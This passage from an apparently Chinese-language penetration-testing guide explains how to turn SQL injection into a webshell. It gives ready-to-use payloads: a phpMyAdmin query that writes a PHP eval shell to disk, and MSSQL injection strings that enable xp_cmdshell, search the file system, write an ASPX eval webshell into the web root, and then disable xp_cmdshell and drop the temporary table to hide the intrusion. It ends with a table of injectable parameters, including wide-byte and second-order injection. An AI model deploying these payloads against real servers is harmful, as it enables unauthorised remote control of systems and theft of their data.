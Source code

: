 ####7.1.2        PHPmyadmin shell方法

Phpmyadmin getshell （编码）
`a)   select '<?eval($_POST[cmd]);?>' into outfile 'd:/wwwroot/1.php';`

####7.1.3        MSSQL DBA权限getwebshell

Ps:MSSQL大权限，知路径，传文件，回shell。结合xp_cmdshell 执行系统命令。

开启xp_cmdshell

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数

RECONFIGURE;

EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展

RECONFIGURE;--
```
 
创建临时表，用于将执行的结果写入
`;CREATE TABLE tt_tmp (tmp1 varchar(8000));--`

将查找结果写入临时表中
`;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'for /r c:\ %i in (*index*.aspx) do @echo %i ';--`

执行SQLMap 将表tt_tmp导出(--dump -T tt_tmp)；或者执行sql-shell将tt_tmp内容读取出来
写测试文件到Web路径
`;exec master..xp_cmdshell 'echo test >c:\\WWW\\2333.txt';--`

写shell

`;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\233.aspx' ;--`

善后步骤

删除临时表

`;DROP TABLE tt_tmp ;--`

关闭xp_cmdshell

```
;EXEC sp_configure 'xp_cmdshell',0;  //关闭xp_cmdshell扩展

RECONFIGURE;

EXEC sp_configure 'show advanced options',0;//不允许修改高级参数

RECONFIGURE; --
```
 
###7.2  关联功能点

序号|功能点|参数
|--|--
1|登录|Username password
2|Header|Cookie Referer x-forward remote-ip
3|查询展示,数据写入（表单）,数据更新|id u category price str value
4|数据搜素|Key
5|伪静态|（同3），加*
6|Mysql不安全配置|Set character_set_client=gbk|%df%27
7|传参（横向数据流向、纵向入库流向）|Parameter （同3）
8|订单类多级交互、重新编辑配送地址、资料编辑|二次注入
9|APP仍调用WEB API|同3
10|编码urldecode base64|Urldecode() rawurldecode()
